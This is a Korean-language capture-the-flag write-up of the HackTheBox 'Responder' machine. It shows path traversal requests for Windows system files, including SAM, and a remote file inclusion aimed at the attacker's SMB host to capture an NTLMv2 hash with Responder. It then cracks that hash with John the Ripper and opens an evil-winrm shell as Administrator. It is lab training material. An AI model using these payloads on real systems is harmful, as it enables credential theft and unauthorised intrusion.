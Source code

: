 ```yaml
---
title: HTB Responder Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, WinRM, Evil-WinRM, wsman, LFI, RFI]
image:
    path: /assets/image_post/20240206200539.png
---
```


대상 서버 nmap 스캔 결과는 아래와 같다. (동일한 인자를 줬지만 kali에선 되고 mac에선 되지 않았다...왜그럴까..)
``` bash
# nmap 10.129.2.235 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-05 14:03 UTC
Nmap scan report for 10.129.2.235
Host is up (0.51s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.03 seconds
```

80 port로 접근가 열려있는 것을 확인할 수 있으며, 접근 시 아래와 같이 .htb 사이트로 이동된다.

``` bash
# curl 10.129.73.133
<meta http-equiv="refresh" content="0;url=http://unika.htb/">#
```

하지만 이동 된 후 아무 페이지를 찾을 수 없다는 내용만 존재하여, 다양한 시도를 해보았으나 문제를 풀 수가 없었다.
![](../assets/image_post/20240207174302.png)

알고 보니 해당 증상은 문제가 있는 것으로 아래와 같이 hosts 파일을 수정해주어야 정상적으로 사이트에 접근된다.
``` bash 
sudo vi /etc/hosts

# 아래 IP는 각자 발급 받은 Machine의 IP 입력 필요
10.129.73.133    unika.htb
```

수정 후 사이트에 접근하면 정상적으로 접근되는 것을 확인 할 수 있다.
![](../assets/image_post/20240207174736.png)

문제를 풀던 중 아래 문제의 답이 도저히 나오지 않아 결국 타 공략을 보았다. NT Lan Manager가 많이 나와 왜 글자 수가 다르지? 생각했지만, NT도 줄임말이여서 그런 것이였다...괜히 패배한 기분이다.
![](../assets/image_post/20240207175049.png)

해당 사이트의 국가별 언어를 변경하면 아래 그림과 같이 page 파라미터에 인자를 받아온 것을 알 수 있다. 
![](../assets/image_post/20240207233736.png)

파일 명을 지정하고 있으므로 LFI와 RFI를 테스트해보았다. 지정한 경로는 문제에서 예시로 들어준 경로이다.
``` bash
 read-min 🎉   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../windows/system32/drivers/etc/hosts

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
주요 파일에 대해서도 접근이 되는지 테스트 해보았으나, "Permission denied"가 반환되는 것을 알 수 있다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../../../../../Windows/System32/config/SAM
<br />
<b>Warning</b>:  include(../../../../../../../../../../../../Windows/System32/config/SAM): Failed to open stream: Permission denied in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../../../../../../../../../../Windows/System32/config/SAM' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```
<br/>

아래는 RFI를 테스트한 결과이다. 아래의 결과처럼 존재하지 않는 파일에 대해선 "No such file"가 반환된다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=//10.10.14.6/somefile
<br />
<b>Warning</b>:  include(\\10.10.14.6\SOMEFILE): Failed to open stream: No such file or directory in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '//10.10.14.6/somefile' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```

테스트 환경이 MacOS다보니, 큰 난항을 겪었다. 다양한 테스트를 하다가 responder라는 툴을 사용해야한다는 것을 알게 되어, MacOS에서 Kali Docker Image를 통해 해보려했으나, VPN 설정 등의 문제로 계속 실패했다. 결국 Kali Linux 이미지로 vm 환경 구성 후 해결하였다.


대상 서버에서 RFI가 되고 있으므로, 아래와 같이 responder를 사용할 수 있다. responder는 로컬 네트워크에서 인증 정보(Credentials) Hash를 획득하기 위해 사용하는 도구이다. 실행 시 인터페이스 지정이 필요한데, 문제를 풀기 위해선 responder를 실행할 환경에서 openvpn으로 htb 연결 후, 해당 인터페이스를 지정해야한다. 아래의 경우 'tun0'가 openvpn을 연결했을때의 인터페이스이므로 지정했다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

...

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.52]
    Responder IPv6             [dead:beef:2::1132]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-B9AFQUY0GZQ]
    Responder Domain Name      [C7CK.LOCAL]
    Responder DCE-RPC Port     [48210]

[+] Listening for events...
```

responder 실행 후 `Responder IP [10.10.15.52]`인 것을 알 수 있으며, 대상 서버에서 접근 시 아래와 같이 출력되는 것을 볼 수 있다. 

![](../assets/image_post/20240213144459.png)

실패했다고 나오지만 responder를 실행한 콘솔에서는 아래와 같이 hash 값을 획득 할 수 있다.

``` bash
[SMB] NTLMv2-SSP Client   : 10.129.247.175
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:368█████16576129:9CF51B█████003FB9FE█████33CC83CC:01█████00000000000E9A590145EDA011E0554C0DF8566AE00000000020008004300370043004B0001001E00570049004E002D004200390041004600510055005900█████7005A00510004003400570049004E002D0█████390041004600510055005900300047005A0051002E004300370043004B█████04C004F00430041004C00030014004█████0043004B002E004C004F00430041004C00050014004300370043004B002E004C004F004300410█████0700080000E9A590145EDA01060004█████00000080030003000000000000000010000000020000045D2FE32AD51D3█████B822C1D368273015B1E5DD4171CC96AFCF06DA789F1AA0█████000000000000000000000000000000000009002000█████900660073002F00310030002E00310030002E00310035002E00350032000000000000000000
``` 

수집된 정보는 `/usr/share/responder/logs` 경로에 `SMB-NTLMv2-SSP-10.129.247.175.txt`와 같은 형태로 저장된다. 해당 파일을 갖고 John the Riper를 통해 패스워드에 대한 크랙을 할 수 있다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# johnjohn --format=netntlmv2 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.129.247.175.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 3 different salts (1.3x same-salt boost) (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:04:15  3/3 0g/s 804383p/s 2413Kc/s 3217KC/s gmcn91..gmbgbc
0g 0:00:04:29  3/3 0g/s 803137p/s 2409Kc/s 3212KC/s 1582mg1..158p1mo
0g 0:00:11:25  3/3 0g/s 814773p/s 2444Kc/s 3259KC/s wrmt3s..wrdouz
0g 0:00:24:48  3/3 0g/s 821610p/s 2464Kc/s 3286KC/s pyeph86..pyep11k
████████n        (Administrator)
4g 0:00:33:47 DONE 3/3 (2024-02-13 02:25) 0.001972g/s 818862p/s 2457Kc/s 3276KC/s badgoom10..badmikuth
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

이제 Administrator 계정과 패스워드를 알고 있으므로 원격 쉘을 붙일 수 있는지 테스트해보자. WinRM 서비스에 대한 공격을 진행할 것이다. 대상 기본 포트는 5985이다. 기본 scan에서는 보이지 않아 port를 지정하여 스캔하였다.
``` python
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.16.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:44 EST
Nmap scan report for 10.129.16.102
Host is up (0.26s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1


┌──(root㉿kali)-[/home/user]
└─# nmap 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:50 EST
Nmap scan report for 10.129.16.102
Host is up (0.31s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```

wsman은 ws-management를 뜻하며, winrm 서비스가 정상 동작하고 있음을 뜻한다. 이제 evil-winrm을 통해 쉘을 획득해보자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.247.175 -u Administrator -p ████████

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```

쉘 획득 후 대상 서버의 파일을 조사하다보면 flag.txt가 있음을 확인 할 수 있다.
``` bash
*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
ea8█████ddd03e█████45333█████fac
```

드디어 해당 문제를 풀었다. hosts 파일 수정, openvpn 문제, winRM에 대한 개념 부재 등으로 이번 문제는 푸는데 시간이 꽤 걸렸다.
![](../assets/image_post/20240213175415.png)


